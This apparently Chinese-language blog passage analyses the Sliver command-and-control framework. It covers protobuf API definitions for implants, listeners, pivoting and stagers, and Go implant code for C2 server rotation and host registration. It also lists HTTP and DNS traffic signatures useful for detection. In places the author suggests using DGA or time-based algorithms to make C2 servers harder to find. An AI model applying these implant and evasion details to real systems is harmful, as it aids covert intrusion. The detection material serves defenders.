repeated ImplantProfile Profiles = 1;
}
message RegenerateReq {
string ImplantName = 1;
}
message Job {
uint32 ID = 1;
string Name = 2;
string Description = 3;
string Protocol = 4;
uint32 Port = 5;
repeated string Domains = 6;
}
// [ Jobs ] ----------------------------------------
message Jobs {
repeated Job Active = 1;
}
message KillJobReq {
uint32 ID = 1;
}
message KillJob {
uint32 ID = 1;
bool Success = 2;
}
// [ Listeners ] ----------------------------------------
message MTLSListenerReq {
string Host = 1;
uint32 Port = 2;
bool Persistent = 3;
}
message MTLSListener {
uint32 JobID = 1;
}
message DNSListenerReq {
repeated string Domains = 1;
bool Canaries = 2;
string Host = 3;
uint32 Port = 4;
bool Persistent = 5;
}
message DNSListener {
uint32 JobID = 1;
}
message HTTPListenerReq {
string Domain = 1;
string Host = 2;
uint32 Port = 3;
bool Secure = 4; // Enable HTTPS
string Website = 5;
bytes Cert = 6;
bytes Key = 7;
bool ACME = 8;
bool Persistent = 9;
}
// Named Pipes Messages for pivoting
message NamedPipesReq {
string PipeName = 16;
commonpb.Request Request = 9;
}
message NamedPipes {
bool Success = 1;
string Err = 2;
commonpb.Response Response = 9;
}
// TCP Messages for pivoting
message TCPPivotReq {
string Address = 16;
commonpb.Request Request = 9;
}
message TCPPivot {
bool Success = 1;
string Err = 2;
commonpb.Response Response = 9;
}
message HTTPListener {
uint32 JobID = 1;
}
// [ commands ] ----------------------------------------
message Sessions {
repeated Session Sessions = 1;
}
message UpdateSession {
uint32 SessionID = 1;
string Name = 2;
}
message GenerateReq {
ImplantConfig Config = 1;
}
message Generate {
commonpb.File File = 1;
}
message MSFReq {
string Payload = 1;
string LHost = 2;
uint32 LPort = 3;
string Encoder = 4;
int32 Iterations = 5;
commonpb.Request Request = 9;
}
message MSFRemoteReq {
string Payload = 1;
string LHost = 2;
uint32 LPort = 3;
string Encoder = 4;
int32 Iterations = 5;
uint32 PID = 8;
commonpb.Request Request = 9;
}
enum StageProtocol {
TCP = 0;
HTTP = 1;
HTTPS = 2;
}
message StagerListenerReq {
StageProtocol Protocol = 1;
string Host = 2;
uint32 Port = 3;
bytes Data = 4;
bytes Cert = 5;
bytes Key = 6;
bool ACME = 7;
}
message StagerListener {
uint32 JobID = 1;
}
message ShellcodeRDIReq {
bytes Data = 1;
string FunctionName = 2;
string Arguments = 3;
}
message ShellcodeRDI {
bytes Data = 1;
}
message MsfStagerReq {
string Arch = 1;
string Format = 2;
uint32 Port = 3;
string Host = 4;
string OS = 5; // reserved for future usage
StageProtocol Protocol = 6;
repeated string BadChars = 7;
}
message MsfStager {
commonpb.File File = 1;
}
// GetSystemReq - Client request to the server which is translated into
// InvokeSystemReq when sending to the implant.
message GetSystemReq {
string HostingProcess = 1;
ImplantConfig Config = 2;
commonpb.Request Request = 9;
}
// MigrateReq - Client request to the server which is translated into
// InvokeMigrateReq when sending to the implant.
message MigrateReq {
uint32 Pid = 1;
ImplantConfig Config = 2;
commonpb.Request Request = 9;
}
// [ Tunnels ] ----------------------------------------
message CreateTunnelReq {
commonpb.Request Request = 9;
}
message CreateTunnel {
uint32 SessionID = 1;
uint64 TunnelID = 8 [jstype = JS_STRING];
}
message CloseTunnelReq {
uint64 TunnelID = 8 [jstype = JS_STRING];
commonpb.Request Request = 9;
}
// [ events ] ----------------------------------------
message Client {
uint32 ID = 1;
string Name = 2;
Operator Operator = 3;
}
message Event {
string EventType = 1;
Session Session = 2;
Job Job = 3;
Client Client = 4;
bytes Data = 5;
string Err = 6; // Can't trigger normal gRPC error
}
message Operators {
repeated Operator Operators = 1;
}
message Operator {
bool Online = 1;
string Name = 2;
}
// [ websites ] ----------------------------------------
message WebContent {
string Path = 1;
string ContentType = 2;
uint64 Size = 3 [jstype = JS_STRING];
bytes Content = 9;
}
message WebsiteAddContent {
string Name = 1;
map<string, WebContent> Contents = 2;
}
message WebsiteRemoveContent {
string Name = 1;
repeated string Paths = 2;
}
message Website {
string Name = 1;
map<string, WebContent> Contents = 2;
}
message Websites {
repeated Website Websites = 1;
}
可学习的go编程
有很多Go编程的细节可以学习。
处理自定义协议
implant主函数很精简，先通过自定义协议连接，再一个主函数处理连接后的操作。
for {
connection := transports.StartConnectionLoop()
if connection == nil {
break
}
mainLoop(connection)
}
连接部分精简化的代码就是这样

nextCCServer可以通过连接的次数和server的数量变换协议和server
func nextCCServer() *url.URL {
uri, err := url.Parse(ccServers[*ccCounter%len(ccServers)])
*ccCounter++
if err != nil {
return nextCCServer()
}
return uri
}
后续通过解析出来的协议再分别处理。nextCCServer的算法有点简单，自己写的话可以修改一下，用一些时间算法，dga算法等等，来达到随机化获取c2 teamserver的目的。
map映射函数
在接收任务进行处理的时候，通过map映射执行相关的函数

Goroutine 和 chanel
使用chanel传递参数，使用goroutine创建处理过程

chanel创建完成后，想像server发送指令，只需要
send <- 指令
即可
获取基础信息
func getRegisterSliver() *sliverpb.Envelope {
hostname, err := os.Hostname()
if err != nil {
hostname = ""
}
currentUser, err := user.Current()
if err != nil {
// Gracefully error out
currentUser = &user.User{
Username: "<< error >>",
Uid: "<< error >>",
Gid: "<< error >>",
}
}
filename, err := os.Executable()
// Should not happen, but still...
if err != nil {
//TODO: build the absolute path to os.Args[0]
if 0 < len(os.Args) {
filename = os.Args[0]
} else {
filename = "<< error >>"
}
}
// Retrieve UUID
uuid := hostuuid.GetUUID()
data, err := proto.Marshal(&sliverpb.Register{
Name: consts.SliverName,
Hostname: hostname,
Uuid: uuid,
Username: currentUser.Username,
Uid: currentUser.Uid,
Gid: currentUser.Gid,
Os: runtime.GOOS,
Version: version.GetVersion(),
Arch: runtime.GOARCH,
Pid: int32(os.Getpid()),
Filename: filename,
ActiveC2: transports.GetActiveC2(),
ReconnectInterval: uint32(transports.GetReconnectInterval() / time.Second),
ProxyURL: transports.GetProxyURL(),
})
if err != nil {
return nil
}
return &sliverpb.Envelope{
Type: sliverpb.MsgRegister,
Data: data,
}
}
得到信息后，直接通过发送到相关transport实现的send chan里
connection.Send <- getRegisterSliver()
测试用例
用于工程化的一键生成、一键测试，详情可查看_test.go结尾的文件，这是个好习惯
流量特征
http
获取公钥,访问.txt结尾
func (s *SliverHTTPClient) txtURL() string {
curl, _ := url.Parse(s.Origin)
segments := []string{"static", "www", "assets", "text", "docs", "sample"}
filenames := []string{"robots.txt", "sample.txt", "info.txt", "example.txt"}
curl.Path = s.pathJoinURL(s.randomPath(segments, filenames))
return curl.String()
}
获取sessionid 会返回jsp结尾的uri
func (s *SliverHTTPClient) jspURL() string {
curl, _ := url.Parse(s.Origin)
segments := []string{"app", "admin", "upload", "actions", "api"}
filenames := []string{"login.jsp", "admin.jsp", "session.jsp", "action.jsp"}
curl.Path = s.pathJoinURL(s.randomPath(segments, filenames))
return curl.String()
}
回显数据发送,以php结尾的uri
func (s *SliverHTTPClient) phpURL() string {
curl, _ := url.Parse(s.Origin)
segments := []string{"api", "rest", "drupal", "wordpress"}
filenames := []string{"login.php", "signin.php", "api.php", "samples.php"}
curl.Path = s.pathJoinURL(s.randomPath(segments, filenames))
return curl.String()
}
poll拉取请求,以访问.js结尾的uri
func (s *SliverHTTPClient) jsURL() string {
curl, _ := url.Parse(s.Origin)
segments := []string{"js", "static", "assets", "dist", "javascript"}
filenames := []string{"underscore.min.js", "jquery.min.js", "bootstrap.min.js"}
curl.Path = s.pathJoinURL(s.randomPath(segments, filenames))
return curl.String()
}
默认的UA以及请求流量
defaultUserAgent = "Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko"
req, _ := http.NewRequest(method, uri, body)
req.Header.Set("User-Agent", defaultUserAgent)
req.Header.Set("Accept-Language", "en-US")
query := req.URL.Query()
query.Set("_", fmt.Sprintf("%d", encoderNonce))
dns
- 对于一个域名有多个5级域名以上的DNS请求，或txt请求记录
- 一次完整的dns交互可能包含这些敏感DNS域名的字符串
_domainkey、.si、.se、.b